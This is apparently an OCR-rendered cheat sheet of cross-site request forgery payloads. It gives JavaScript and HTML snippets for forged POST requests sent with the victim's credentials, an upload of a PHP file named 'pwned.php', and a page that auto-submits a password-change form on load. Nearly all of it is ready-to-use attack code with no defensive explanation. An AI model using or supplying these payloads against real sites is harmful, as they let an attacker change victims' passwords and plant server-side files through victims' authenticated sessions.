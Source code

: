               <script>
              //JQuery version
              $.ajax({
                type: "POST",
                url: "https://google.com",
                data: "param=value&param2=value2"
              })
              </script>

# multipart/form-data POST request

                myFormData = new FormData();
                var blob = new Blob(["<?php phpinfo(); ?>"], { type: "text/text"});
                myFormData.append("newAttachment", blob, "pwned.php");
                fetch("http://example/some/path", {
                    method: "post",
                    body: myFormData,
                    credentials: "include",
                    headers: {"Content-Type": "application/x-www-form-urlencoded"},
                    mode: "no-cors"
                });


# multipart/form-data POST request v2

                var fileSize = fileData.length,
                boundary = "OWNEDBYOFFSEC",
                xhr = new XMLHttpRequest();
                xhr.withCredentials = true;
                xhr.open("POST", url, true);
                //  MIME POST request.
                xhr.setRequestHeader("Content-Type", "multipart/form-data, boundary="+boundary);
                xhr.setRequestHeader("Content-Length", fileSize);
                var body = "--" + boundary + "\r\n";
                body += 'Content-Disposition: form-data; name="' + nameVar +'"; filename="' + fileName + '"\r\n';
                body += "Content-Type: " + ctype + "\r\n\r\n";
                body += fileData + "\r\n";
                body += "--" + boundary + "--";

                //xhr.send(body);
                xhr.sendAsBinary(body);

# Form POST request from within an iframe

                <--! expl.html -->

                <body onload="envia()">
                <form method="POST"id="formulario" action="http://aplicacion.example.com/cambia_pwd.php">
                <input type="text" id="pwd" name="pwd" value="otra nueva">
                </form>
                <body>
                <script>
                function envia(){document.getElementById("formulario").submit();}
                </script>
